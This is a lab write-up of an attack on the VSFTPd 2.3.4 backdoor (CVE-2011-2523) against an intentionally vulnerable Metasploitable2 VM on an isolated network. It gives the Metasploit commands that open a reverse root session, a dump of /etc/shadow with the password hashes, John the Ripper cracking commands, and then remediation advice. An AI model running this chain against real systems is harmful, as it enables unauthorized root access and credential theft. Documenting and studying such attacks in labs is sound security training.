




# 01 — VSFTPd 2.3.4 Backdoor Exploitation (CVE-2011-2523)

## Objective

Demonstrate a full attack chain against a vulnerable FTP service: reconnaissance, exploitation via a known backdoor, post-exploitation access, and credential extraction with offline hash cracking.

---

## Environment

| Component | Details |
|---|---|
| Attacker | Kali Linux 2026.2 — 192.168.226.128 |
| Target | Metasploitable2 (Ubuntu 8.04) — 192.168.226.129 |
| Network | VMware VMnet1 (Host-only, isolated — no internet access) |
| Hypervisor | VMware Workstation Pro 26H1 |
| Tools Used | nmap, Metasploit Framework 6.4, John the Ripper |

> **Note:** This lab is conducted in a fully isolated virtual network. Neither machine has internet access. The target is an intentionally vulnerable VM designed for security practice.

---

## Reconnaissance

The first step of any engagement is mapping the attack surface. An nmap service version scan was run against the target to identify open ports and running services.

**Command:**
```bash
nmap -sV 192.168.226.129
```

**Output (abbreviated):**
```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
80/tcp   open  http        Apache httpd 2.2.8
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
6667/tcp open  irc         UnrealIRCd
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
```

**Analysis:**

Port 21 is running **vsftpd 2.3.4** — a version with a publicly documented backdoor (CVE-2011-2523) introduced via a compromised source code package. This was identified as the primary attack vector due to the known severity and reliable exploit availability in Metasploit.



---

## Vulnerability

**CVE-2011-2523 — VSFTPd 2.3.4 Backdoor**

In July 2011, the vsftpd 2.3.4 source package distributed on the official site was replaced with a malicious version containing a backdoor. When a username containing the string `:)` (a smiley face) is sent during the FTP handshake, the backdoor opens a shell listener on **port 6200** of the target machine, providing unauthenticated command execution.

- **CVSS Score:** 10.0 (Critical)
- **Attack Vector:** Network
- **Authentication Required:** None
- **Impact:** Complete system compromise

---

## Exploitation

Metasploit Framework was used to exploit the backdoor.

**Step 1 — Launch Metasploit:**
```bash
msfconsole
```

**Step 2 — Load the exploit module:**
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

**Step 3 — Configure the target and listener:**
```bash
set RHOSTS 192.168.226.129
set LHOST 192.168.226.128
```

**Step 4 — Execute:**
```bash
run
```

**Output:**
```
[*] Started reverse TCP handler on 192.168.226.128:4444
[*] 192.168.226.129:21 - FTP banner hints its vulnerable: 220 (vsFTPd 2.3.4)
[+] 192.168.226.129:21 - The target appears to be vulnerable.
[+] 192.168.226.129:21 - Backdoor has been spawned!
[*] Meterpreter session 1 opened (192.168.226.128:4444 -> 192.168.226.129:44534)

meterpreter >
```

A Meterpreter session was successfully opened, providing a fully interactive post-exploitation shell on the target.



---

## Post-Exploitation

### Confirming Access Level

```bash
meterpreter > getuid
Server username: root

meterpreter > sysinfo
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
Meterpreter  : x86/linux
```

The session was running as **root** — the highest privilege level on the system. No privilege escalation was required.

### Credential Extraction

A raw shell was opened and `/etc/shadow` was read to extract system password hashes:

```bash
meterpreter > shell
whoami
root

cat /etc/shadow
```

**Selected output:**
```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
```

All hashes use the MD5crypt (`$1$`) algorithm, which is computationally weak by modern standards.



---

## Credential Cracking

Hashes were saved locally on Kali and cracked offline using John the Ripper with a targeted wordlist.

**Command:**
```bash
john --wordlist=~/custom.txt --format=md5crypt ~/hashes.txt
```

**Result:**
```
user             (user)
postgres         (postgres)
msfadmin         (msfadmin)
3g 0:00:00:00 DONE
```

| Username | Cracked Password | Method |
|---|---|---|
| user | user | Dictionary |
| postgres | postgres | Dictionary |
| msfadmin | msfadmin | Dictionary |

All three passwords matched their respective usernames exactly — cracked in under one second.



---

## Findings

| Finding | Severity | Detail |
|---|---|---|
| VSFTPd 2.3.4 backdoor | Critical | Unauthenticated remote root access via CVE-2011-2523 |
| Weak credential policy | High | Username equals password across multiple accounts |
| MD5crypt password hashing | High | Outdated algorithm, trivially cracked offline |
| Shadow file readable via exploit | Critical | Full credential exposure after initial compromise |

---

## Remediation

1. **Replace vsftpd 2.3.4 immediately** — upgrade to a current, verified version from a trusted source. Verify the SHA checksum of any downloaded source package before compiling.
2. **Enforce strong password policy** — passwords must not match usernames. Minimum complexity requirements should be enforced at the system level.
3. **Replace MD5crypt with bcrypt or SHA-512** — update `/etc/pam.d/common-password` to use `sha512` rounds. MD5crypt provides insufficient protection against offline cracking.
4. **Principle of least privilege** — services like FTP should not run as or escalate to root. Run vsftpd under a dedicated low-privilege service account.
5. **Disable unnecessary services** — the nmap scan revealed 22 open ports. Services not required for business function should be disabled to reduce attack surface.

---

## References

- [CVE-2011-2523 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
- [Metasploit Module — vsftpd_234_backdoor](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)
- [Metasploitable2 Documentation](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [John the Ripper Documentation](https://www.openwall.com/john/)
